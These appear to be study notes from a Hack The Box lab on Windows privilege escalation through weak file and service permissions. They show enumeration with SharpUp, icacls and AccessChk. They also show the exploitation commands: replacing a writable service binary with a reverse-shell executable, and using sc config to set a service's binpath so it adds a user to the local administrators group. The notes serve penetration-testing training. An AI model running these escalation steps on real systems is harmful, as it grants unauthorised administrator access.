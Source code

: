 # Weak Permissions

## Weak Permissions

we can find it in open source application and Custom Applications

## **Permissive File System ACLs**

### **Running SharpUp**

we use this tool to check for service binaries suffering from weak ACLs.

```powershell
PS C:\htb> .\SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===

=== Modifiable Service Binaries ===

  Name             : SecurityService
  **DisplayName      : PC Security Management Service**
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  **PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"**
  
  <SNIP>
```

The tool identifies the `PC Security Management Service`, which executes the `SecurityService.exe` binary when started.

### **Checking Permissions with icacls**

we can verify the vulnerability and see that the `EVERYONE` and `BUILTIN\Users` groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents.

```powershell
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe **BUILTIN\Users:(I)(F)**
                                                     **Everyone:(I)(F)**
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

### **Replacing Service Binary**

**this service startable by unprivileged users**

we can take a copy of this service(to clean up) and create a reverse shell then move it to the main file

```powershell
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

***

***

## **Weak Service Permissions**

in this case the problem not in ACL for service but in this service (Service control manager)

### **Reviewing SharpUp Again**

We see the `WindscribeService` is potentially misconfigured.

```powershell
C:\htb> SharpUp.exe audit
 
=== SharpUp: Running Privilege Escalation Checks ===
 
 
=== Modifiable Services ===
 
  Name             : WindscribeService
  **DisplayName      : WindscribeService**
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  **PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"**
```

### **Checking Permissions with AccessChk**

to check permission of this service

we found all Auth Users have all access

```powershell
C:\htb> accesschk.exe /accepteula -quvcw WindscribeService
 
Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com
 
WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  **RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS**
```

### **Check Local Admin Group**

```powershell
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
 
Members
 
-------------------------------------------------------------------------------
Administrator
mrb3n
The command completed successfully.
```

### **Changing the Service Binary Path**

Let's change it to add our user to the local administrator group.

```powershell
C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS
```

### **Stopping & Starting Service**

```powershell
C:\htb> sc stop WindscribeService
C:\htb> sc start WindscribeService
```

### **Confirming Local Admin Group Addition**

```powershell
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
 
Members
 
-------------------------------------------------------------------------------
Administrator
**htb-student**
mrb3n
The command completed successfully.
```

***

***

### **Check Startup Programs**

```powershell
PS C:\htb> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl

Name     : OneDrive
command  : "C:\Users\mrb3n\AppData\Local\Microsoft\OneDrive\OneDrive.exe" /background
Location : HKU\S-1-5-21-2374636737-2633833024-1808968233-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : WINLPE-WS01\mrb3n

Name     : Windscribe
command  : "C:\Program Files (x86)\Windscribe\Windscribe.exe" -os_restart
Location : HKU\S-1-5-21-2374636737-2633833024-1808968233-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : WINLPE-WS01\mrb3n

Name     : SecurityHealth
command  : %windir%\system32\SecurityHealthSystray.exe
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public

Name     : VMware User Process
command  : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public
```
